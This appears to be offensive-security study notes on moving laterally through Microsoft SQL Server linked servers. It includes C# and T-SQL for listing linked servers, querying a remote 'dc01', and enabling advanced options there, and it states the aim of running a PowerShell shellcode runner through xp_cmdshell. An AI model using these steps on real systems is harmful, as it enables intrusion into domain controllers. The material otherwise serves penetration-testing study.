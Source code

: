 ## Following The Link
The first step to get sysadmin member on linked servers, is to enumerate servers linked to the current SQL server.
The [_sp_linkedservesr_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-linkedservers-transact-sql?view=sql-server-ver15) stored procedure returns a list of linked servers for us. It does not require any arguments, but it may return multiple results that we must print to the console:
```SQL
String execCmd = "EXEC sp_linkedservers;";

SqlCommand command = new SqlCommand(execCmd, con);
SqlDataReader reader = command.ExecuteReader();

while (reader.Read())
        {
            Console.WriteLine("Linked SQL server: " + reader[0]);
        }
 reader.Close();
```
(we use a loop to print multiple results)

Compiling and running the console application enumerates any linked servers:

![](../../../Screenshots/lse-csca.png)

With the servers enumerated, we can find the version of sql server with the [_OPENQUERY_](https://docs.microsoft.com/en-us/sql/t-sql/functions/openquery-transact-sql?view=sql-server-ver15) keyword as part of the FROM clause:
```SQL
select version from openquery("dc01", 'select @@version as version')
```

Executing the application, we can run a query on the linked server:

![](../../../Screenshots/ad-da-ad.png)

## Code Execution
We will execute our PowerShell shellcode runner through a download cradle with the xp_cmdshell stored procedure.
Microsoft SQL uses _Remote Procedure Call_ (RPC) to do so.
Thus, the created link must be configured with outbound RPC through the [_RPC Out_](https://docs.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms186839(v=sql.105)?redirectedfrom=MSDN) setting.
If RPC Out is not allowed, it can be enabled with the [_sp_serveroption_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-serveroption-transact-sql?view=sql-server-ver15) stored procedure if our current user has sysadmin role membership.

(Microsoft documentation for OPENQUERY specifically states that executing stored procedures is not supported on linked SQL servers. Instead, we are going to use the _AT_ keyword to specify which linked SQL server a query should be executed on.)

```SQL
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT DC01
```
